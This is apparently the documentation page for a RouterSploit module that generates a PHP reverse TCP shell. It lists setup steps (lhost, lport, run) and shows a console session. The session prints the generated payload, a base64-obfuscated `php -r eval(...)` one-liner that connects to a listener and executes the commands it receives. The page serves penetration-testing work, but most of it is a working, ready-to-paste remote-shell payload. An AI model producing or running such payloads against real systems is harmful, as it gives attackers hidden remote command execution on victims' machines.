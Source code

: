 ## Description

Module generates payload that creates interactive tcp reverse shell by using php one-liner. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/cmd/php_reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Do: `run`
  6. Module generates php tcp reverse shell payload

## Scenarios

```
rsf > use payloads/cmd/php_reverse_tcp
rsf (PHP Reverse TCP One-Liner) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (PHP Reverse TCP One-Liner) > set lport 4321
[+] lport => 4321
rsf (PHP Reverse TCP One-Liner) > run
[*] Running module...
[*] Generating payload
php -r "eval(base64_decode('JHM9ZnNvY2tvcGVuKCJ0Y3A6Ly8xOTIuMTY4LjEuNCIsNDMyMSk7d2hpbGUoIWZlb2YoJHMpKXtleGVjKGZnZXRzKCRzKSwkbyk7JG89aW1wbG9kZSgiXG4iLCRvKTskby49IlxuIjtmcHV0cygkcywkbyk7fQ=='));"
```
